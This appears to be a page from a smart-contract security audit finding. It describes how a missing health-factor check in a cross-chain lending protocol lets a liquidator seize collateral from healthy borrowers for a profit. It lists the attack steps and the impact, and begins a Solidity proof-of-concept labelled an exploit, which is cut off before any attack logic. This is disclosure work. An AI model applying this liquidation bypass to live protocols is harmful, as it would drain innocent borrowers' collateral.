 8. Liquidation proceeds despite healthy position as the missing require(borrowed > collateral) check allows liquidation of overcollateralized positions
9. Protocol calculates seize amount using liquidateCalculateSeizeTokens() determining ~540 USDC collateral to seize (8% liquidation bonus)
10. Cross-chain message sent to Chain A to execute collateral seizure via _handleLiquidationExecute()
11. Victim's collateral transferred to liquidator on Chain A while liquidator's 500 USDT repayment processes on Chain B
12. Liquidator profits 40 USDT (seized 540 USDC - paid 500 USDT) from illegitimate liquidation of healthy position

### Impact

The healthy borrowers suffer an approximate loss of up to 100% of their collateral value. The malicious liquidators gain the seized collateral minus the repaid debt amount, typically earning 5-10% liquidation bonus on positions that should not be liquidatable.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";

/**
 * @title Cross-Chain Liquidation Health Check Bypass Exploit
 * @notice Demonstrates how healthy positions can be liquidated due to missing health factor validation
 */
contract CrossChainLiquidationBypassExploit {
    
    struct LiquidationParams {
        address borrower;
        uint256 repayAmount;
        uint32 srcEid;
        address lTokenToSeize;
        address borrowedAsset;
        uint256 storedBorrowIndex;
        uint256 borrowPrinciple;
        address borrowedlToken;
    }
    
    struct Borrow {
        uint256 srcEid;
        uint256 destEid; 
        uint256 principle;
        uint256 borrowIndex;
        address borrowedlToken;
        address srcToken;
    }
    
    // Mock contracts for demonstration
    address public mockLendStorage;
    address public mockLendtroller;
    address public victim;
    address public liquidator;
    
    // Mock values representing healthy position
    uint256 public constant COLLATERAL_VALUE = 2000e18; // $2000 collateral
    uint256 public constant BORROWED_AMOUNT = 1000e18;  // $1000 borrowed (50% LTV - HEALTHY)
    uint256 public constant REPAY_AMOUNT = 500e18;     // Liquidating $500 (within close factor)
    
```